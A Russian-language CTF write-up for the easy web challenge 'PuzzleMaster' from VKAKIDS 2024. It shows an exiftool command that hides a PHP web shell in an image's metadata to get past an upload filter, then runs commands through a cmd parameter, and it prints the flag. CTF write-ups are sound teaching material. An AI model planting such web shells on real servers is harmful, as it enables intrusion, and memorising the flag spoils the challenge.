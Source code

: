 ## Собери пазл и загрузи секретное изображение!


| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | PuzzleMaster | Web | easy |


### Описание


> Автор: [Timur219]
>
Соберите идеальный пазл, двигаясь по клеткам, пока не соберете картину! Challenge yourself с каждым новым изображением!


### Решение
После успешного решения пятнашек активируется кнопка загрузки файлов.
Обратите внимание, что сервер успешно блокирует загрузку файлов, которые не являются изображениями, проходит проверка по MIME-типу и размеру файла.
Создайте файл PHP/JPG, который по сути является обычным изображением, но содержит полезную нагрузку PHP в своих метаданных.

Это можно сделать с помощью exiftool:
```
exiftool -Comment="<?php system($_GET["cmd"]); ?>" your_image.jpg -o payload_file.php
```
Как только файл будет создан, собираем пазл и закидываем файл в форму загрузки и загружаем на сервер.
Используя Burp Suite перехватим GET запрос подгрузки файла и передадим ему команду в параметр cmd:
![alt text](image-2.png)

Находим файл flag/ и смотрим его содержимое:
![alt text](image-1.png)

### Флаг

```
vka{15p1zzle_master_2024_super_challenge}
```



